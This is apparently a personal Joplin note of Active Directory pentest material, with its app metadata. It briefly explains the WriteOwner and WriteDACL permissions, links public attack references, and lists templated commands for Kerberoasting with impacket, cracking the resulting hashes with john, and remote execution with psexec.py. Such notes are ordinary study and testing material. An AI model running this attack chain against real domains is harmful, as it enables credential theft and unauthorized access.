 General Info

WriteOwner - can Provides the ability to take ownership of an object. The owner of an object can [gain full control rights on the object](https://technet.microsoft.com/en-us/library/dd125370%28v=ws.10%29.aspx).

- WriteDACL

https://adsecurity.org/?p=3658

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md 

https://book.hacktricks.xyz/windows/active-directory-methodology

https://cheats.philkeeble.com/active-directory/enumeration

Most useful commands

- impacket-GetUserSPNs -request -dc-ip &lt;IP&gt; &lt;domain&gt;/&lt;Username&gt;
    - Store output in a file (hash.kirbi)
- john --wordlist=/usr/share/wordlists/rockyou.txt &lt;hashfile&gt;
- psexec.py &lt;domain&gt;/&lt;username&gt;:&lt;Password&gt;@IP

id: ac73f98de647453982f599882f52fae3
parent_id: c900bb1263d649dd801144a9657e4075
created_time: 2022-01-19T10:13:45.371Z
updated_time: 2022-02-03T15:34:17.893Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2022-01-19T10:13:45.371Z
user_updated_time: 2022-02-03T15:34:17.893Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
share_id: 
conflict_original_id: 
master_key_id: 
type_: 1